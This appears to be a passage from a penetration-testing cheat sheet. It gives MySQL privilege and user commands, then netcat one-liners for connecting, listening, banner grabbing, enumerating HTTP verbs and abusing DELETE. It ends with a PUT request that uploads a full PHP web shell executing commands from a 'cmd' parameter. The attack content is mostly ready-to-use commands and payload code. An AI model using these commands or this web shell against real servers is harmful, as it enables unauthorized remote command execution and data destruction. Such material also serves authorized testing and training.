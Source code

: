 # apply changes to privileges
flush privileges;

# delete user
drop user 'username'@'IP_here';


NETCAT
------
#establish connection
nc target_IP port_here
nc -v target_IP port_here

# start listener
nc -lnvp port_here

# banner grabbing (2 empty lines required between headers + body!)
nc target_IP 80 -v
HEAD / HTTP/1.0



# enumerate allowed HTTP verbs
nc target_site 80 -v
OPTIONS / HTTP/1.0



# exploit DELETE
nc target_site 80 -v
DELETE /path/to/resource.txt HTTP/1.0



# exploit PUT with php web shell
nc target_site 80 -v
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

<?php
if (isset ($GET['cmd']))
{
$cmd = $_GET['cmd'];
echo '<pre>';
$result = shell_exec($cmd);
echo $result;
echo '</pre>';
}
?>
